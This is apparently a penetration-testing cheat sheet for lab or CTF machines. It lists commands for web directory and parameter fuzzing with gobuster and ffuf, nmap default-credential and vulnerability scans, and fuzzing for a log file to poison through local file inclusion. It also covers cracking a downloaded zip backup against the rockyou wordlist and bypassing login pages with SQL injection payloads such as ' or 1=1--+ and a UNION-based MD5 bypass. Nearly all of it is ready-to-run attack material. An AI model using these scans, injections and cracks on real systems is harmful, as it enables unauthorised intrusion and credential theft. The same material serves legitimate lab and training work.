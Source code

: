 Ignore status errors - if no page is found
gobuster dir -u http://10.10.11.57 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -k -s 200,204,301,302,307,403,401 -b 302
```
### GET DEFAULT credentials
```
nmap -Pn -n –-script http-default-accounts -p 80 192.168.2.20 –-open -T5 -vv
```
### HTTP Vuln
```
nmap -Pn -n -p80 192.168.2.4 --script http-vuln* --open -T5 -vv
```
### Fuzzing
git clone https://github.com/danielmiessler/SecLists.git
apt -y install seclists
```
ffuf -w ./SecLists/Discovery/Web-Content/common.txt -u http://192.168.56.125:8080/administration.php?FUZZ-helloworld -fs 65
ffuf -w ./SecLists/Discovery/Web-Content/common.txt -u 192.168.56.125:8080/administration.php?logfile=<name of file>

ffuf -w /path/to/wordlist -u 'https://target'  -H 'Host: FUZZ.TARGET.DOMAIN'
# Find log file for poisoning
cat /usr/share/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt | grep log > log.txt 
ffuf -u http://${IP}/LFI.php?file=FUZZ -w log.txt -fr "Failed opening" -o fuzz.txt

Discover new paths
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.php,.txt -u 'http://10.0.2.114:8080/FUZZ' -of html -o dir.html -fs 2899

Discover any sort of file based off current URL
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://10.0.2.114:8080/administration.php?FUZZ=anything' -of html -o admin-get.html -fs 65
```
### ZIP cracking
```
wget http://192.168.1.135/backup
file backup
frackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup
unzip backup
cat dump.sql
```

### SSH User Logins and exploits
```
ssh -i ssh_key user@192.168.x.x
Make sure ssh_key is the private key -> public key can show username though
```

### Login Pages
```
Usr: Admin, Pass: Admin
OR SQL injection
admin' -- -
Bypass MD5 hash username:
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
Password bypass
' or 1=1--+
